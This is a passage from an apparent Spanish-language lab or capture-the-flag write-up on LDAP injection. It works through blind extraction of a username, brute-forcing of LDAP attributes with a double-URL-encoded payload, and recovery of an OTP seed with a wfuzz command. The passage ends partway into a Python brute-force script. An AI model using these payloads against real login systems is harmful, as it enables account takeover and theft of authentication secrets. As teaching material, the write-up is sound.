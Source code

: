 Con la respuesta obtenida, podemos ir sacando conclusiones. En las peticiones donde recibimos más de **2822** caracteres, probablemente sea descartables. Por otro lado, las peticiones que nos hayan regresado **2822** sea el caracter correcto. Guiandonos con este filtro, podemos ir obteniendo las siguientes letras.

Siguiendo estos pasos, podemos dar con un **usuario**:
![[Pasted image 20230629135657.png]]

----------
#### LDAP Injection - Attribute Brute Force [Discovering valid LDAP fields]  
Ahora que tenemos un nombre de usuario valido, podriamos fuzzear por atributos validos, la consulta de la inyección va a cambiar, lo que queremos lograr ahora seria esto:
```
(&
	(&
		(inputOTP=123)
		(inputUsername=ldap)
		(attribute=*)))%00
	)
---------- INCÓGNITA
	(&
		(exampla=example)
		(example=example)
	)
)
```

Vamos abrir un **"("** y a su vez cerrarlo **")"** y dentro de este vamos a fuzzear por atributos existentes. La data doblemente urlencodeada se veria asi:
```
inputUsername=ldapuser%2529%2520%2528FUZZ%253d%252a%2529%2529%2529%2500
```

Vemos algunos atributos disponibles:
![[Pasted image 20230629145214.png]]

--------------
#### LDAP Injection - Obtaining OTP Seed
Ahora podemos iterar por cada uno de ellos con **wfuzz** de la misma forma que habiamos hecho el anterior:
```
# wfuzz -c --hw=233 --hc=404 -w digits -d 'inputUsername=ldapuser%2529%2520%2528pager%253dFUZZ%252a%2529%2529%2529%2500&inputOTP=123'
```

Terminando la fuerza bruta, podemos dar con el **OTP** integro:
```
Image
```

Tambien podemos hacer un script con **python3** para fuzzear por todos los digitos y ahorrarnos ese tiempo:
```python

from pwn import *
import requests
import pdb
import time
import signal
import sys
import string

# ctrl + c
def def_handler(sig,frame):
	print("\n[!] Saliendo....")
```